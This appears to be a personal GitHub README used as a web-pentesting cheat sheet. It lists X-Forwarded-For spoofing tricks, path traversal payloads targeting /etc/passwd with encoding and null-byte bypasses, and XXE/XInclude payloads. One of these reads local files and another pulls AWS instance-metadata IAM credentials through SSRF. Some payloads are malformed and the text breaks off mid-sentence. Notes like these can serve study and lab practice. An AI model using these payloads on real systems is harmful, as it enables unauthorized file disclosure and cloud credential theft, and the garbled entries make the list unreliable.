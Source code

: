 # Code-Review
Repo for code review

https://github.com/swisskyrepo/PayloadsAllTheThings/

X-Forwarded-For: 888

Probe for weak validation — checks whether the app only checks for header existence (instead of verifying a valid IP).

Bypass naive filters — e.g., if a filter does if header contains digits or uses a poor regex, 888 might pass while a blocked IP might not.

Log poisoning — injecting odd tokens into logs for later exploitation or to confuse log-parsing pipelines.

Trigger unexpected behavior in code that does numeric/lexical checks on the header value.


Path Traversal:
1. /etc/passwd
2. ../../../etc/passwd
3. ..//..//..//etc/passwd
4. Add on to that add URL Encode all Characters <- 2times do the process
5. Try https://www.example.com/image?filename=/var/www/images/../../../etc/passwd
6. ../../../etc/passwd%00[48.jpg]->acutal URL

var/www/html/*

XML Injections:
1. <?xml>
    <!DOCTYPE test [<ENTITY test SYSTEM "file://etc/passwd">]><stockCheck>
2. <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<! ENTITY test SYSTEM
"http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck>
3.Input field Type
productId=<hack xmlns:xi="http://www.w3.org/2001/XInclude">< xi:include parse="text" href="file:///etc/passwd"/></hack&storeId=1
4. Saving the payload of XML in SVG file using nano pic.svg and saving it with a payload that used
